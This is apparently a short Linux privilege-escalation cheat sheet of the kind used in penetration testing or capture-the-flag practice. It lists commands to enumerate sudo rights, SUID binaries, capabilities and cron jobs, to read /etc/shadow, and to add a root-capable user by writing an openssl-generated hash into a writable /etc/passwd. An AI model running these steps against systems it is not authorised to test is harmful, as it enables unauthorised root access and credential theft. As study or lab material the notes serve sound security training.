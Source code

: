 - #### SUDO :

```bash
# List the programs which sudo allows your user to run.
sudo -l

# Wget trick having wget in sudo -l : 
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/
```

- #### SUID :

```bash
# Find all SUID binaries/files to exploit.
find / -type f -perm -04000 -ls 2>/dev/null
```

- #### Capabilities :

```bash
# Find all Capabilities binaries/files to exploit.
getcap -r / 2>/dev/null
```

- #### Crontab :

```bash
# Used to find all scheduled run files 
cat /etc/crontab
```

- #### Weak Files Permissions (Passwd/Shadow) :

>[!note]
>In some cases passwd and shadow could be writable/readable.

```bash
# Read Files.
cat /etc/passwd
cat /etc/shadow

# modify the files.
nano /etc/passwd
nano /etc/passwd
```

```bash
# In case /etc/passwd or /etc/shadow are writable.
export USER='USERNAME'
export PASS='PASSWORD'
#It will generate a password to use while adding new user.
#passing '-1' will generate an MD5 password, '-5' a SHA256 and '-6' SHA512
openssl passwd -1 -salt $USER $PASS # Use -1 for /etc/passwd and -6 for /etc/shadow
```

```bash
# After adding user.
export USER='USERNAME'
su - $USER # Enter the $PASS when prompted.
```

